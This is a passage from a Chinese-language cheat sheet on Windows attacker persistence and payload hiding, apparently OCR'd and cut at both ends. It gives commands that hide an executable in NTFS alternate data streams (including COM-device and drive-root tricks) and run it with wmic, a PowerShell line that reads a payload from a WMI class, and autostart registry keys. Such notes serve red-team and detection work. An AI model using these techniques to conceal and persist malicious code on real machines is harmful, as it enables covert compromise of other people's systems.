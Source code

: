 读取:

```
$Payload=([WmiClass] 'Win32_Command').Properties['Command'].Value
```

**包含数字签名的PE文件** 利用文件hash的算法缺陷，向PE文件中隐藏Payload，同时不影响该PE文件的数字签名 **特殊ADS** …

```
type putty.exe > ...:putty.exe
wmic process call create c:\test\ads\...:putty.exe
```

特殊COM文件

```
type putty.exe > \\.\C:\test\ads\COM1:putty.exe
wmic process call create \\.\C:\test\ads\COM1:putty.exe
```

磁盘根目录

```
type putty.exe >C:\:putty.exe 
wmic process call create C:\:putty.exe
```

##### 3、Run/RunOnce Keys

用户级

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

管理员

```ABAP
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```

##### 4、BootExecute Key

由于smss.exe在Windows子系统加载之前启动，因此会调用配置子系统来加载当前的配置单元，具体注册表键值为：

```
HKLM\SYSTEM\CurrentControlSet\Control\hivelist
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Control\Session Manager
```

##### 5、Userinit Key

WinLogon进程加载的login scripts,具体键值：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

##### 6、Startup Keys
